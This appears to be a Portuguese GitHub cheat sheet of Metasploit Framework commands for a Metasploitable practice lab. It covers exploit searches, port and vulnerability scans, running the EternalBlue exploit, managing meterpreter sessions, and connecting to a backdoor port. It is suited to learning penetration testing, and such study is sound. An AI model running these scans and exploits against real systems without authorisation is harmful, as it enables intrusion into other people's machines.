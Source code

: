 # Comandos básicos do Metasploit-Framework

## Listar base de exploits do Kali Linux

$ searchsploit <name service> [smb, dns, http, smtp, ftp, Apache, ProFTPd, vsftpd, samba, etc]

## Diretório do Metasploit-Framework

$ ls -l /usr/share/metasploit-framework

## Run Metasploit-Framework

$ sudo service postgresql start

$ sudo msfdb init

$ sudo msfconsole

msf > db_status

msf > help

msf > help search

msf > history

msf > show [auxiliary, exploits, payloads, options, targets, advanced, encoders, nops]

msf > search scanner

msf > search name:mysql

msf > search type:exploit platform:windows

msf > search type:exploit rank:great

msf > search cve:2022 platform:windows type:exploit

msf > grep http search oracle

msf > search type:auxiliary portscan

msf > use auxiliary/scanner/portscan/tcp

msf  auxiliary(scanner/portscan/tcp) > info

msf  auxiliary(scanner/portscan/tcp) > show options

msf  auxiliary(scanner/portscan/tcp) > set PORTS 1-1024

msf  auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.123

msf  auxiliary(scanner/portscan/tcp) > run

msf  auxiliary(scanner/portscan/tcp) > back

msf > nmap -sn 192.168.1.0/24

msf > nmap 192.168.1.123

msf > connect 192.168.1.123 1524

msf > exit

## Workspaces Metasploit-Framework

$ sudo service postgresql start

$ sudo msfdb init

$ sudo msfconsole

msf > db_status

msf > workspace -a metasploitable2

msf > db_nmap -sn 192.168.1.0/24

msf > hosts

msf > db_nmap -sV -p0-65535 192.168.1.123

msf > services

msf > db_nmap -sV -p 22 --script=vuln 192.168.1.123

msf > vulns

## Run Exploit Sessions in Backgroung

msf exploit(windows/smb/ms17_010_eternalblue) > exploit

meterpreter > background

msf exploit(windows/smb/ms17_010_eternalblue) > sessions

msf exploit(windows/smb/ms17_010_eternalblue) > sessiosn -i 1

meterpreter >

msf > jobs

msf > kill 0

msf > sessions -l

